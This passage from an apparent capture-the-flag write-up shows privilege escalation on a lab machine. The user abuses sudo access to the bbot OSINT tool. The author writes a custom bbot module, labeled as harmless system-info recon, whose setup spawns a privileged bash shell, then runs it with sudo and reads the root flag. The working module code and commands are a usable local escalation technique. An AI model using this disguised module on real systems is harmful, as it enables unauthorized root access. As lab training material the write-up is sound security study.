 While exploring, we found that `bbot` is an OSINT tool hosted on [Github](https://github.com/blacklanternsecurity/bbot) but also that this concrete version has a reported vulnerability as shown on [Seclists](https://seclists.org/fulldisclosure/2025/Apr/19)

Seems that `bbot` allows to run python code as a module. So we can create required module files for executing `/bin/bash -p` and escalate privileges through that

```bash
graphasm@cypher:~$ vim systeminfo_enum.py
graphasm@cypher:~$ cat systeminfo_enum.py
from bbot.modules.base import BaseModule
import pty
import os

class systeminfo_enum(BaseModule):
    watched_events = []
    produced_events = []
    flags = ["safe", "passive"]
    meta = {"description": "System Info Recon (actually spawns root shell)"}

    async def setup(self):
        self.hugesuccess("📡 systeminfo_enum setup called — launching shell!")
        try:
            pty.spawn(["/bin/bash", "-p"])
        except Exception as e:
            self.error(f"❌ Shell failed: {e}")
        return True
graphasm@cypher:~$ vim bbot_preset.yml 
graphasm@cypher:~$ cat bbot_preset.yml 
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

module_dirs:
  - .
modules:
  - systeminfo_enum
```

By running the command with `sudo` payload gets executed, we gain root privileges and can read root.txt file

```bash
graphasm@cypher:~$ sudo /usr/local/bin/bbot -p ./bbot_preset.yml --event-types ROOT
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[INFO] Scan with 1 modules seeded with 0 targets (0 in whitelist)
[INFO] Loaded 1/1 scan modules (systeminfo_enum)
[INFO] Loaded 5/5 internal modules (aggregate,cloudcheck,dnsresolve,excavate,speculate)
[INFO] Loaded 5/5 output modules, (csv,json,python,stdout,txt)
[SUCC] systeminfo_enum: 📡 systeminfo_enum setup called — launching shell!
root@cypher:/home/graphasm# whoami
root
root@cypher:/home/graphasm# cat /root/root.txt
51<--REDACTED-->

```
